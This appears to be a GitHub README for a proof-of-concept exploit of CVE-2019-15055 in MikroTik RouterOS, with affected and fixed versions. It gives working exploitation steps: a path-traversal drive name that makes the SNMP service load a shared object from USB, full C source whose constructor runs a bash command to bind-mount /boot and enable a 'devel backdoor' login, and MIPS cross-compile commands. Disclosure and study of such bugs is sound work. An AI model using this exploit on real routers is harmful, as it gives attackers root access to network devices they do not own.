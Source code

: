 # CVE-2019-15055

This vulnerability requires a USB or drive be mounted and visible in System -> Disk. Assuming you have control of the USB create the directory structure "/nova/lib/snmp/" and store lol_mips.so in the snmp subdirectory. Note that the shared object is compiled as mips big endian. If your target uses a different architecture than you'll need to recompile it.

Next change the drive's name to "../../../ram/pckg/snmp_xploit" and enable (or restart) the SNMP process. This should cause SNMP to load the shared object on the USB. The shared object simply does the following:

```sh
albinolobster@ubuntu:~/routeros/poc/cve_2019_15055/shared_obj$ cat snmp_exec.c 
#include <unistd.h>
#include <stdlib.h>

void __attribute__((constructor)) lol(void)
{
    int fork_result = fork();
    if (fork_result == 0)
    {
        execl("/bin/bash", "bash", "-c", "mkdir /pckg/option; mount -o bind /boot/ /pckg/option", (char *) 0);
        exit(0);
    }
}

extern void autorun(void)
{
    // do nothin' I guess?
    return; 
}
```

So you should now be able to login to through the devel backdoor.

## Affected versions
At the time of commit, this has been fixed in 6.46rc34 and 6.45.5. Long-term still has no fix.

## Compiling the shared object

```
albinolobster@ubuntu:~/routeros/poc/cve_2019_15055/shared_obj$ ~/cross-compiler-mips/bin/mips-gcc -c -fpic snmp_exec.c
albinolobster@ubuntu:~/routeros/poc/cve_2019_15055/shared_obj$ ~/cross-compiler-mips/bin/mips-gcc -shared -s -o lol_mips.so snmp_exec.o
```

